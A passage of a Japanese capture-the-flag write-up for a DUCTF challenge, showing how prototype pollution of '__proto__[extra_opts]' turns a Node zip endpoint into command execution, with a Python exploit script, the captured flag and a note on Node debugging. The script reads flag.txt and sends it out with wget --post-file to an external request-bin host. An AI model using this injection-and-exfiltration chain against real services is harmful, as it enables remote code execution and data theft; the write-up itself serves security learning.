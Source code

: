 これを実現するリクエストボディは次のようになる。

```
__proto__[extra_opts][0]=-T&__proto__[extra_opts][1]=-TT&__proto__[extra_opts][2]=<cmd>
```

任意コード実行が出来るようになったが、その結果を出力してくれるわけではないのでどうにかしてそれを得る必要がある。リバースシェルを張っても良いと思うが、面倒なので実行コマンドをリダイレクトして、そのファイルをwgetでrequestbin(今はpipedreamって言うらしい)に送り込んだ。

コマンドは`ls > /tmp/ls.txt`してから`cat flag.txt > /tmp/cat.txt`としたものをwgetで送らせた。

## Code

フラグ開示のみ(事前に`wget`で`ls`した結果を送っている)

```python
import requests


url = "http://localhost:8000"

f = {
    "file": ("unko.txt", "unkoburibu~ri")
}

d = {
    "__proto__[extra_opts][0]": "-T",
    "__proto__[extra_opts][1]": "-TT",
    "__proto__[extra_opts][2]": 'cat flag.txt > /tmp/cat.txt; wget --post-file="/tmp/cat.txt" https://<REDACTED>.m.pipedream.net',  # ls > /tmp/ls.txt; ... を最初にやってファイル名を特定した
}

r = requests.post(url+"/zip", files=f, data=d)
print(r.text)

```

## Flag

ローカルでやったけど問題リポジトリ上でやったのでなんか出た

`DUCTF{th4nk_y0u_4_p4rticipating_1n_our_bet4_t3st}`

## Appendix: nodeのデバッグ

ググり力がカスすぎて[ドキュメント](https://nodejs.org/ja/docs/guides/debugging-getting-started/)に書いてあったのに辿り着くのが遅れたから一応書いておく。ちなみにWSL2でしか確かめていない(Linuxのデスクトップ環境とかなら`--inspect`を`localhost`にしなくても出てきたURLでアクセス出来ると思う)

1. アプリケーション起動時に`node --inspect=localhost:<port> <app>`とする
2. 「Chrome」でアドレスバーに`http://localhost:<port>/json/list`にアクセスして`devtoolsFrontendUrl`の値をアドレスバーに打ち込む
3. なんかできる、すげー

これでブレークポイントをポチポチしたりして変数の中身を見れる。ちなみに愛用ブラウザであるFirefoxでやる方法は1分調べたぐらいでは出てこなかったので数年ぶりにChromeを引っ張り出した。

## Resources
